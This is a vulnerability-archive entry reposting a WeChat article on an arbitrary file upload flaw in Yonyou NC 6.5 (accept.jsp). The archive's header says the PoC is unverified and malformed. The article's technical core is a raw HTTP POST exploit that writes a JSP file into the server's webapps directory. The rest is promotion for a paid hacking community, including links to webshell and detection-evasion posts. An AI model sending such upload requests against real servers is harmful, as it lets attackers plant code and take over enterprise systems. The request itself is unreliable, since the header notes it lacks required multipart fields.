










# 用友NC accept.jsp上传

## 条目说明

- 对象与具体问题：用友NC；accept.jsp上传
- 版本、配置及部署条件：6.5 Windows路径条件
- 认证与权限前提：无Cookie未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart name/filename丢失、头体空行缺，不可独立复现
- 安装路径固定且无最终触发GET；宣传占大半，无修复build

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DYMx-XoiEgzIwGvD58xNEQ)

**0x01 前言**

用友 NC 是大型企业管理与电子商务平台。该平台 accept.jsp 处存在任意文件上传漏洞，攻击者通过漏洞可以获取网站权限。

**0x02 漏洞影响**

    影响版本

```
NC 6.5

```

**0x03 漏洞利用**

登录界面



EXP：

```http
POST /aim/equipmap/accept.jsp HTTP/1.1
Host: 127.0.0.1:9100
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Connection: close
Content-Length: 443
Accept: */*
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=---------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc
-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc
Content-Disposition: form-data; 
Content-Type: text/plain
<% out.println("435352Els1K9wZvOlSsdsdmrg"); %>
-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc
Content-Disposition: form-data; 
\webapps\nc_web\2XpU7WZCxP3YJqVaC0EjlHM5oAt.jsp
-----------------------------yFeOihSQU1QYLu0KwhX72U5C1sMYc--

```

**文件上传成功！**



**0x04 修复方案**

```
请升级最新版本。 

```

**★  
**

**付费圈子  
**

  

  

**欢 迎 加 入 星 球 ！**

**代码审计 + 免杀 + 渗透学习资源 + 各种资料文档 + 各种工具 + 付费会员**


  

****进成员内部群****


  

  


  

****星球的最近主题和星球内部工具一些展示****

















****


  

**加入安全交流群**

 [](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489372&idx=1&sn=5e14ba5fa59059fb1ee405e56ef90d40&chksm=c175eaf3f60263e5ef5415a8a9fc134f0890fdb9c25ab956116d17109baf98b3bd6bed572a2d&scene=21#wechat_redirect)                

**关 注 有 礼**

  

  

关注下方公众号回复 “666” 可以领取一套领取黑客成长秘籍

 还在等什么？赶紧点击下方名片关注学习吧！

  

**推荐阅读**

[****干货｜史上最全一句话木马****](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489259&idx=1&sn=b268701409ad4e8785cd5ebc23176fc8&chksm=c175eb44f60262527120100bd353b3316948928bd7f44cf9b6a49f89d5ffafad88c6f1522226&scene=21#wechat_redirect)

[**干货 | CS 绕过 vultr 特征检测修改算法**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247486980&idx=1&sn=6d65ae57f03bd32fddb37d7055e5ac8e&chksm=c175f3abf6027abdad06009b2fe964e79f2ca60701ae806b451c18845c656c12b9948670dcbc&scene=21#wechat_redirect)  

[**实战 | 用中国人写的红队服务器搞一次内网穿透练习**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488628&idx=1&sn=ff2c617cccc00fe262ed9610c790fe0e&chksm=c175e9dbf60260cd0e67439304c822d28d510f1e332867e78a07d631ab27143309d14e27e53f&scene=21#wechat_redirect)  

[**实战 | 渗透某培训平台经历**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247488613&idx=1&sn=12884f3d196ac4f5c262a587590d516d&chksm=c175e9caf60260dcc0d5d81a560025d548c61fda975d02237d344fd79adc77ac592e7e562939&scene=21#wechat_redirect)  

[**实战 | 一次曲折的钓鱼溯源反制**](http://mp.weixin.qq.com/s?__biz=MzkxNDAyNTY2NA==&mid=2247489278&idx=1&sn=5347fdbf7bbeb3fd37865e191163763f&chksm=c175eb51f602624777fb84e7928bb4fa45c30f35e27f3d66fc563ed97fa3c16ff06d172b868c&scene=21#wechat_redirect)

**免责声明**

由于传播、利用本公众号渗透安全团队所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号渗透安全团队及作者不为**此**承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

好文分享收藏赞一下最美点在看哦

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
